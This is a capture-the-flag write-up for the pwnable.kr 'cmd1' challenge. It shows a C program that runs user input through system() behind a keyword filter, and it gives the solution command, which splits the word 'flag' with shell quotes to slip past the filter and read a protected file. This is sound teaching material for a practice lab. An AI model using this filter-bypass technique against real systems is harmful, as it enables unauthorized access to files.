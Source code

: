 ```yaml
---
layout: post
title: pwnable.kr - cmd1
---
```


## Prompt
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)

## Files
We are given an executable `cmd1`, its source `cmd1.c`, and a `flag` file.

**cmd1.c**:
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```
When run, `cmd1` overwrites the PATH with a dummy value using the `putenv()` function:
```bash
cmd1@pwnable:~$ env | grep PATH
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

[becomes]
PATH=/thankyouverymuch
```
It then filters `argv[1]` for the substrings "flag", "sh", and "tmp". If the argument contains one of these, the script ends. Otherwise, the command passed into `argv[1]` is run by the `system` with the privileges of the binary.

```bash
cmd1@pwnable:~$ ./cmd1 # no argv[1] provided
Segmentation fault (core dumped)
cmd1@pwnable:~$ ./cmd1 cat # PATH doesn't incl. cat
sh: 1: cat: not found
cmd1@pwnable:~$ ./cmd1 "/bin/cat a" # need to supply flag
/bin/cat: a: No such file or directory
cmd1@pwnable:~$ ./cmd1 "/bin/cat flag" # flag is filtered
cmd1@pwnable:~$ cat 'f'l'a'g # obfuscated flag
cat: flag: Permission denied
```

## Solution

```bash
cmd1@pwnable:~$ ./cmd1 "/bin/cat 'f'l'a'g"
{flag}
```
